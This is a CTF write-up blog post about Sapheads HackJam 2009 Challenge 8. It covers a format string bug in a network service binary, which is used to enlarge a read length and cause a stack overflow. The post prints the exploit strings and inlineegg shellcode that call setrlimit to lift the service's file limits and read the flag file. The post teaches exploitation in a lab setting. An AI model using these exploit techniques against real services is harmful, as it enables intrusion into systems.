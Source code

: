 ```yaml
---
title: 'Writing neat shellcode using inlineegg &#8211; Sapheads HackJam 2009 Challenge 8'
author: thaidn
excerpt: |
  |
    Challenge 8 is a trivial format string bug, but one needs neat shellcode to get the flag.
layout: post

shorturls:
  - 'a:4:{s:9:"permalink";s:108:"https://www.vnsecurity.net/2009/10/writing-neat-shellcode-using-inlineegg-sapheads-hackjam-2009-challenge-8/";s:7:"tinyurl";s:26:"http://tinyurl.com/ya5wpdl";s:4:"isgd";s:18:"http://is.gd/aOt83";s:5:"bitly";s:20:"http://bit.ly/6aVAwT";}'
tweetbackscheck:
  - 1408358990
twittercomments:
  - 'a:0:{}'
tweetcount:
  - 0
categories:
  - 'CTF - CLGT Crew'
---
```

## 1. Analysis

First thing first:

<pre class="brush: plain; gutter: false; title: ; notranslate" title="">$ file t1g3rd

t1g3rd:
ELF 32-bit LSB executable, Intel 80386, version 1 (SYSV), for GNU/Linux
2.6.15, dynamically linked (uses shared libs), not stripped</pre>

t1g3rd is a regular network service that when executed would listen on port 7384. When a client comes in, the binary forks a new child process, and calls a function named handleClient. At the begining of handleClient, t1g3rd calls setrlimit(2) to disallow this child process to open new file or fork a new process. This makes the binary a perfect example to illustrate how to write neat shellcode using [inlineegg][1] :-D.

handleClient then goes on to read two inputs, which are 19 bytes long and 512 bytes long respectively, from the client. The first input is sent back to the client using printf(3), and the second is just discarded.

## 2. Vulnerability

As one can guess, the printf(3) call at 0x08048c52 that the binary uses to send the first input back to the client is vulnerable to format string attack. The format string is limited to 19 bytes long, so one needs to choose where to write with which value wisely.

## 3. Exploit 

Usually, with this kind of format string bug, one could overwrite the RIP of handleClient or the RIP of the vulnerable printf(3) call to loop back to the begining of handleClient, so that the binary would read(2) another 19 bytes, and the next printf(3) call would allow her to overwrite some more bytes to somewhere else such as a GOT entry. One could also redirect to right above the first read(2) call, so that it would read(2) more than 19 bytes, which in turn allows him to overwrite as many bytes to any where as he wants. But we don&#8217;t need to use these techniques here.

Right after the vulnerable printf(3) call is another read(2) call at 0x08048c7f whose pseudo-code looks like:

<pre class="brush: plain; gutter: false; title: ; notranslate" title="">read(0, input_buffer2, length)</pre>

where length is an integer stored at $EBP &#8211; 0&#215;228 on the stack. Before this call, at 0x08048b43, length is assigned a default value which is 512. What if we overwrite length so that it becomes 1000? Since input_buffer2 is just 512 bytes long, and we read(2) in 1000 bytes, we would get a classic stack-based buffer overflow.

Here are two exploit strings that we send to the binary:

<pre class="brush: python; gutter: false; title: ; notranslate" title=""># overwrite length so that read(0, input_buffer2, length) at 0x08048c7f reads more than 512 bytes
length_slot = 0xbf9c1978 #original length: 0x0000200
new_length = 1000
msg1 = struct.pack('I', length_slot) + '%' + str(new_length) + 'c%134$hn' # this is 18 bytes


# msg2 = SHELLCODE + RET
shellcode = SHELLCODE # shellcode's length should a multiple of 4
msg2 = shellcode + 'x84x19x9cxbf' * ((0x224 - len(msg2))/4) # 0xbf9c1984 = input_buffer2

</pre></p> 

## 4. Shellcode 

Now I can make t1g3rd run my shellcode, but as I said in Section 1, the binary disallows opening new file or forking new process. That means the shellcode can&#8217;t do anything useful, i.e. reading the key file or returning a shell. Or can it? What if our shellcode calls setrlmit(2) to set the resource limitations back to normal values?

Then comes the question of the day: how to write shellcode that calls setrlmit(2)? Or a more generic question: how to write shellcode that calls syscalls that accept structures as parameters? Actually, there are 3 ways to write that kind of shellcode: a) write it using Assembly; b) or write a C program, and use [ShellForge][2] to get out the respective shellcode; c) or use inlineegg to write it in Python.

As the title of this entry suggests, I&#8217;ll go with inlineegg. To be honest I hadn&#8217;t written this kind of shellcode before, so it took me an hour or so to figure out how to do it with inlineegg. This is just basic knowledge, but I hope somebody would find my work useful.

Here is the shellcode:

<pre class="brush: python; gutter: false; title: ; notranslate" title="">1.    egg = InlineEgg(Linuxx86Syscall)
2.    egg.addCode(egg.micro.pushTuple((100, 200)))
3.    egg.setrlimit(7, egg.micro.varAtTop().addr())    # RLIMIT_NOFILE
4.    buff = egg.alloc(20)
5.    fd = egg.save(-1)
6.    fd = egg.open(flag_file)
7.    nr = egg.read(fd, buff.addr(), 20)
8.    egg.write(0, buff.addr(), nr)
9.    #egg.execve('/bin/cat',('cat', flag_file)) # easier way
10.   egg.exit(0)</pre>

The most important lines are 2 and 3 which I would explain shortly. If you want to understand the rest, I suggest you reading inlineegg&#8217;s documetation and examples.

The prototype of setrlimit(2) is:

<pre class="brush: plain; gutter: false; title: ; notranslate" title="">int setrlimit(int resource, const struct rlimit *rlim); </pre>

where the second parameter is a pointer to a rlimit structure which is:

<pre class="brush: plain; gutter: false; title: ; notranslate" title="">struct rlimit {
 rlim_t rlim_cur;  /* Soft limit */
 rlim_t rlim_max;  /* Hard limit (ceiling for rlim_cur) */
};</pre>

So in order to call setrlimit(2), we need to pass to it an address that points to a rlimit structure containing more relaxing values of rlim\_cur and rlimit\_max.

At line 2, I push a tuple (100, 200) to the stack. egg.micro.pushTuple((100, 200)) would return the Assembly code that pushes 100 and 200 to the stack, and egg.addCode of course would add that code to the egg.

At line 3, egg.micro.varAtTop() would return the variable (see class Variable in inlineegg.py) at the top of the stack. Since we just push 100 and 200 to the stack, this variable would contain these two integers. I call addr() on this variable to get its address, and pass the result as the second argument of the setrlimit(2) syscall.

And that&#8217;s it! Is it neat? He he he. In the next writeup, I&#8217;ll illustrate how to use inlineegg to write even sneakier shellcode. Stay tuned and happy hacking!

 [1]: http://oss.coresecurity.com/projects/inlineegg.html
 [2]: http://www.secdev.org/projects/shellforge/